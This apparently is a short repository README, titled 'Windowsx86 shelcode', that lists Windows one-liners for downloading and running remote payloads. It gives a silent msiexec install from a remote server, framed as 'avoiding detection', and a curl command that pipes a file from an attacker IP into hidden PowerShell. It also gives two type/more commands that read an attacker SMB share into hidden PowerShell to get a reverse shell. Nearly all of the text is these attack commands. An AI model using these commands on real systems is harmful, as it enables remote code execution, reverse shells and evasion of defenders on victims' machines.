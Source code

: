 # Windowsx86 shelcode

1). Windows installer is used to install software or a patch, but we can take advantage of this built in windows tool to download and execute remote payload in the background while avoiding detection.
	
	Command-Line:  msiexec /i http://server/package.msi /qn

2). Windows 10 version 1803 (and earlier, with insider build 17063) includes a native curl.exe in C:\Windows\System32\, which you can access right from your regular CMD.
	
	Command-Line: curl http://<attacker-ip>/<payload-name>.txt | powershell -w h

3). Some new ways of getting a reverse shell using windows one-liner:
	
	Command-Line: type \\<attacker-ip>\<payload-name>.txt | powershell -w h
	Command-Line: more \\<attacker-ip>\<payload-name>.txt | powershell -w h


Refer:
https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/
